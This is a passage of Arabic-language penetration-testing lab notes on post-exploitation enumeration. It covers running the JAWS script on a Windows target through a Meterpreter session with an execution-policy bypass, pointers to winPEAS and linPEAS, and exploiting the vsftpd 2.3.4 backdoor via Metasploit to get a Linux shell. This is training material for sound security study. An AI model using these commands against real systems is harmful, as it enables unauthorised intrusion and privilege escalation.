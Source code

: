 نشوف انه عطانا اليوزرات المسجله قبل واليوزر الي مسجل حاليا  

وباقي الموديول استخدمناها سابقا  


طبعا الشي الجديد انه فيه script او اداة تختصر عليك بدال ماتجي تسوي موديول موديول هذا راح يسوي كلشي مره وحده  

you can access the script through the following GitHub repository: https://github.com/411Hall/JAWS  


طبعا هذي الاداة راح تسوي لنا كلشي حرفيا مايحتاج نسوي واحد واحد  

طبعا نحمل السكربت ونسوي له run  
```bash
cd C:\\
mkdir Temp  
cd Temp  
upload /root/Desktop/jaws-enum.ps1  
shell  
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt  
download JAWS-Enum.txt  
```  

ونشوف انه عطانا ملف فيه كل المخرجات طبعا باسم JAWS-Enum.txt زي ماحددنا بالامر  
طبعا لابد ترفع السكربت على مشين التارقت ويفضل تكون في مسار Temp  
بعدها تفتح الشيل وتشغل الاداة  
بعدها تحمل الملف الي فيه المخرجات وتقراه وتحصل فيه اغلب الاشياء الي حصلها مثل اليوزرات والقروبز وبتحصل اشياء ثانيه  


طبعا فيه غيرها وافضل مثل (winpeas)[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe]  


ونفس الكلام موجود سكربت اخر او اداة خاصة بنظام لينكس اسمها (linpeas)[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS]  

الى هنا انتهى اللاب نشوف الي بعده  

---  

اللاب الثاني الي معنا اليوم هو

Linux: Enumerating System Information
--------------------------------------|  

طبعا الان ناخذ التارقت يانفحص كامل الشبكة او ناخذ الايبي حقنا ونغير اخر ديجت نزيد عليه 1  

طبعا اختصار للوقت راح نفحص بالـ nmap ونشوف انه ftp open ومصاب كذالك بنستغل فورا  
```bash
msfconsole  
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 192.178.80.3  
run  
```  

ونشوف انه عطانا شيل الان  

طبعا الشيل الي معنا الان non-interactive راح نخليه interactive عن طريق ال Bash shell  
```bash
/bin/bash -i [to open interactive shell on Linux target]  
```  
